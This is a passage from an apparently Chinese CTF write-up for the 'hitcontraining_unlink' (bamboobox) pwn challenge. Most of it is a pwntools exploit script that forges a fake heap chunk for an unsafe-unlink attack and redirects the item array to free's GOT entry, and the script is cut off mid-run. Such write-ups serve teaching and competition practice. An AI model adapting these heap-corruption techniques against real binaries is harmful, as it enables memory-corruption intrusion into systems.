```
delete(0)
delete(1)

add(0x10, p64(0x6020a8), 0x10, 'na') # 2
display(0)

io.interactive()
```



## 0x0f hitcontraining_unlink

原题<br>
exp:

```
from pwn import *

context(log_level='debug', arch='amd64', os='linux')

# io = process('./bamboobox')
io = remote('node3.buuoj.cn', 29177)
elf = ELF('./bamboobox')
libc = ELF('./libc-2.23.so')

free_got = elf.got['free']

def show():
    io.sendlineafter('Your choice:', '1')

def add(size, content):
    io.sendlineafter('Your choice:', '2')
    io.sendlineafter('Please enter the length of item name:', str(size))
    io.sendafter('Please enter the name of item:', content)

def edit(index, size, content):
    io.sendlineafter('Your choice:', '3')
    io.sendlineafter('Please enter the index of item:', str(index))
    io.sendlineafter('Please enter the length of item name:', str(size))
    io.sendafter('Please enter the new name of the item:', content)

def delete(index):
    io.sendlineafter('Your choice:', '4')
    io.sendafter('Please enter the index of item:', str(index))

array = 0x6020C0

add(0x30, 'aaaa')  # 0
add(0x30, 'aaaa')  # 1
add(0x80, 'aaaa')  # 2
add(0x20, '/bin/sh')  # 3

payload = p64(0) + p64(0x30) + p64(array + 0x18 - 0x18) + p64(array + 0x18 - 0x10)
payload += 'a' * 0x10 + p64(0x30) + p64(0x90)

edit(1, len(payload), payload)

delete(2)
# gdb.attach(io)
edit(1, 0x100, p64(0x20) + p64(free_got))#1

show()
io.recvuntil('0 : ')
```